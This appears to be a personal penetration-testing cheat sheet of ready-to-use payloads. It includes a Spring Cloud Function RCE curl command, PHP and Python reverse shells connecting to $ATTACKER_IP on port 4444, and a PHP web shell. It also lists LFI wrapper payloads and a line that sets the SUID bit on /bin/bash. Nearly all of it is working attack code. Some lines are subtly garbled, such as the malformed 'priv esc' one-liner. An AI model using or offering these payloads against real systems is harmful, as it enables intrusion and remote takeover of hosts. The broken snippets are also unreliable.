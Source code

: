 JAVA Spring Boot cloud exploit and rev-shell:
---
```shell
curl -X POST [http://$TARGET_IP:8080/functionRouter](http://$TARGET_IP:8080/functionRouter) -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/$TARGET_IP/4444 0>&1")' --data-raw 'data' -v
```

Windows PHP rev shell
---
[https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php](https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php)

PHP Reverse shell LFI:
---
#php #rev-shell #reverse #rev 

or use system() exec() passthru() shell_exec()

```php
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/$ATTACKER_IP/4444 0>&1'");?>
```

```php
<?php $sock=fsockopen("$ATTACKER_IP",4444);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);?>
```

```php
<?php exec($_GET['cmd']);?>
```

```bash
https://$TARGET_URL?page=$LFI
```
PHP Wrapper LFI payloads:
```text
zip://
rar://
zlib://
phar://
file://
```
and:
```text
$FILE.zIP/payload.php
$FILE.zIP#payload.php
$FILE.zIP%23payload.php
```
sources:
```url
https://medium.com/@omarwhadidi9/10-ways-to-get-rce-from-lfi-f2bb696b67f6
https://www.php.net/manual/en/wrappers.php
```
Python Rev shell
---
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$ATTACKER_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'"
```

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$ATTACKER_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Python Priv Esc
---
```python
pyimport os;os.system("chmod +s /bin/bash");f=function f2(){};
```
